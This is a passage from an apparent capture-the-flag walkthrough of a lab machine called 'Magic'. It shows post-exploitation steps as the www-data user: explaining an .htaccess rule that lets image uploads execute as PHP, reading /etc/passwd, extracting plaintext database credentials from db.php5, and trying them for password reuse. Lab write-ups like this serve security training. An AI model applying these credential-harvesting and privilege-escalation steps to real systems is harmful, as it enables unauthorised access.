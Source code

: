 
## From www-data to theseus


### Reason why jpg can execute php code

The regex that match `.+\.ph(p([3457s]|\-s)?|t|tml)` will be executed as php

```bash
www-data@magic:/var/www/Magic$ cat .htaccess
<FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
<Files ~ "\.(sh|sql)">
   order deny,allow
   deny from all
```

### Enumeration

```bash
www-data@magic:/var/www/Magic$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
```

```bash
www-data@magic:/var/www/Magic$ find . -type f -exec ls -latr {} + 2>/dev/null
[...]
-rwxr-xr-x 1 www-data www-data     359 Sep 27  2019 ./assets/css/images/arrow.svg
-rw-r--r-- 1 www-data www-data     881 Oct 16  2019 ./db.php5
-rw-r--r-- 1 www-data www-data   59661 Oct 17  2019 ./images/hey.jpg
[...]
```

```bash
www-data@magic:/var/www/Magic$ cat ./db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
[...]
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
[...]
```

Tried password reuse but failed

```bash
www-data@magic:/var/www/Magic$ su - theseus
Password:iamkingtheseus
su: Authentication failure
```
